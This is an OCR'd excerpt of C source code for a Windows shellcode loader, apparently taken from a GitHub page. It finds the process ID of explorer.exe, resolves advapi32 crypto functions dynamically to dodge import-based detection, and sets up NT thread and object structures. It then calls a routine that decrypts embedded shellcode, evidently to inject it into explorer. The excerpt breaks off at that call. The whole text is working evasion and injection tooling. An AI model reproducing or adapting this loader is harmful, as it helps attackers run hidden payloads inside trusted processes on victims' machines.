 ```

    CLEANUP:
        fnCryptReleaseContext(hCryptoProv, 0);
        fnCryptDestroyKey(hCryptoKey);
        fnCryptDestroyHash(hCryptHash);

        return bSuccess;
}

DWORD FindExplorer()
{
    PROCESSENTRY32 pe32 = {0};
    pe32.dwSize = sizeof(PROCESSENTRY32);

    // take snapshot
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if(hSnapshot)
    {
        // enum the processes found
        if(Process32First(hSnapshot, &pe32))
        {
            do
            {
                // check if its explorer, if it is then give the pid
                if (strcmp(pe32.szExeFile, "explorer.exe") == 0)
                {
                    return pe32.th32ProcessID;
                }
            } while(Process32Next(hSnapshot, &pe32));
            CloseHandle(hSnapshot);
        }
    }

    return -1;
}

int main(int argc,  char const *argv[])
{
    DWORD dwPid;
    INITIAL_TEB InitTeb;
    LPVOID lpBuffer = NULL;
    CLIENT_ID uPid = { 0 };
    HANDLE hThread, hProcess;
    OBJECT_ATTRIBUTES ObjectAttributes;

    // crypto stuff
    fnCryptAcquireContextW = (CryptAcquireContextW_)GetProcAddress(LoadLibrary("advapi32.dll"), "CryptAcquireContextW");
    fnCryptCreateHash = (CryptCreateHash_)GetProcAddress(LoadLibrary("advapi32.dll"), "CryptCreateHash");
    fnCryptHashData = (CryptHashData_)GetProcAddress(LoadLibrary("advapi32.dll"), "CryptHashData");
    fnCryptDeriveKey = (CryptDeriveKey_)GetProcAddress(LoadLibrary("advapi32.dll"), "CryptDeriveKey");
    fnCryptDecrypt = (CryptDecrypt_)GetProcAddress(LoadLibrary("advapi32.dll"), "CryptDecrypt");
    fnCryptReleaseContext = (CryptReleaseContext_)GetProcAddress(LoadLibrary("advapi32.dll"), "CryptReleaseContext");
    fnCryptDestroyKey = (CryptDestroyKey_)GetProcAddress(LoadLibrary("advapi32.dll"), "CryptDestroyKey");
    fnCryptDestroyHash = (CryptDestroyHash_)GetProcAddress(LoadLibrary("advapi32.dll"), "CryptDestroyHash");

    // decrypt the shellcode
    if (!DecryptShellcode())
```